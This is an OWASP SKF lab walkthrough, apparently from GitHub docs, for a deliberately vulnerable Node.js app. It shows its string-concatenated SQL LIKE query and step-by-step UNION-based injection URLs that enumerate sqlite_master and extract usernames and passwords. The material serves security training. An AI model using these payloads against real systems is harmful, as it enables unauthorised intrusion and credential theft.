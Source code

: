 # SQLI \(Like\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-sqli-like
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get( "SELECT UserName, email FROM users WHERE UserName LIKE '%" + username + "%' ORDER BY UserId"
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/3.png)

```text
http://localhost:5000/home/Admin%25'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/4.png)

```text
http://localhost:5000/home/Admin%25'AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/5.png)

```text
http://localhost:5000/home/Admin%25'union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/6.png)

```text
http://localhost:5000/home/Admin%25'union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/7.png)

```text
http://localhost:5000/home/Admin%25'UNION SELECT 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/8.png)

```text
http://localhost:5000/home/Admin%25'union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/SQLI-Like/9.png)

```text
http://localhost:5000/home/Admin%25'union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-nodejs/query/" %}
